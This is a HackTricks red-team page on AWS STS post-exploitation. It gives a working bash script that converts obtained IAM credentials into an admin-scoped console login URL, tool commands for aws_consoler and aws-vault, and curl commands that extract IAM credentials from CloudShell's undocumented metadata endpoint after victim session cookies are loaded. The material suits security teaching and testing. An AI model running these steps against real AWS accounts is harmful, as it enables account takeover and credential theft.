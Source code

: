 # AWS - STS Post Exploitation

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

## STS

For more information:

{% content-ref url="../../aws-security/aws-services/aws-iam-enum.md" %}
[aws-iam-enum.md](../../aws-security/aws-services/aws-iam-enum.md)
{% endcontent-ref %}

### From IAM Creds to Console

If you have managed to obtain some IAM credentials you might be interested on **accessing the web console** using the following tools.\
Note that the the user/role must have the permission **`sts:GetFederationToken`**.

#### Custom script

The following script will use the default profile and a default AWS location (not gov and not cn) to give you a signed URL you can use to login inside the web console:

{% code overflow="wrap" %}
```bash
# Get federated creds (you must indicate a policy or they won't have any perms)
## Even if you don't have Admin access you can indicate that policy to make sure you get all your privileges
## Don't forget to use [--profile <prof_name>] in the first line if you need to
output=$(aws sts get-federation-token --name consoler --policy-arns arn=arn:aws:iam::aws:policy/AdministratorAccess)

if [ $? -ne 0 ]; then
    echo "The command 'aws sts get-federation-token --name consoler' failed with exit status $status"
    exit $status
fi

# Parse the output
session_id=$(echo $output | jq -r '.Credentials.AccessKeyId')
session_key=$(echo $output | jq -r '.Credentials.SecretAccessKey')
session_token=$(echo $output | jq -r '.Credentials.SessionToken')

# Construct the JSON credentials string
json_creds=$(echo -n "{\"sessionId\":\"$session_id\",\"sessionKey\":\"$session_key\",\"sessionToken\":\"$session_token\"}")

# Define the AWS federation endpoint
federation_endpoint="https://signin.aws.amazon.com/federation"

# Make the HTTP request to get the sign-in token
resp=$(curl -s "$federation_endpoint" \
    --get \
    --data-urlencode "Action=getSigninToken" \
    --data-urlencode "SessionDuration=43200" \
    --data-urlencode "Session=$json_creds"
)
signin_token=$(echo $resp | jq -r '.SigninToken')

# Give the URL to login
echo -n "https://signin.aws.amazon.com/federation?Action=login&Issuer=example.com&Destination=https%3A%2F%2Fconsole.aws.amazon.com%2F&SigninToken=$signin_token"
```
{% endcode %}

#### aws\_consoler

You can **generate a web console link** with [https://github.com/NetSPI/aws\_consoler](https://github.com/NetSPI/aws\_consoler).

```bash
cd /tmp
python3 -m venv env
source ./env/bin/activate
pip install aws-consoler
aws_consoler [params...] #This will generate a link to login into the console
```

{% hint style="warning" %}
Ensure the IAM user has `sts:GetFederationToken` permission, or provide a role to assume.
{% endhint %}

#### aws-vault

[**aws-vault**](https://github.com/99designs/aws-vault) is a tool to securely store and access AWS credentials in a development environment.

```bash
aws-vault list
aws-vault exec jonsmith -- aws s3 ls # Execute aws cli with jonsmith creds
aws-vault login jonsmith # Open a browser logged as jonsmith
```

{% hint style="info" %}
You can also use **aws-vault** to obtain an **browser console session**
{% endhint %}

#### From Console to IAM Creds

[**Originally discovered in this post**](https://blog.christophetd.fr/retrieving-aws-security-credentials-from-the-aws-console/), If you manage to compromise some access to a web console (maybe you stole cookies and could't access the .aws folder), you can obtain some IAM token credentials for that user through **CloudShell**.

CloudShell exposes IAM credentials via an **undocumented endpoint on port 1338**. After loading session cookies from the victim into your browser, you can navigate to CloudShell and issue the following commands to get IAM credentials.

```bash
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"
```

<details>

<summary><strong>Learn AWS hacking from zero to hero with</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Other ways to support HackTricks:

* If you want to see your **company advertised in HackTricks** or **download HackTricks in PDF** Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>

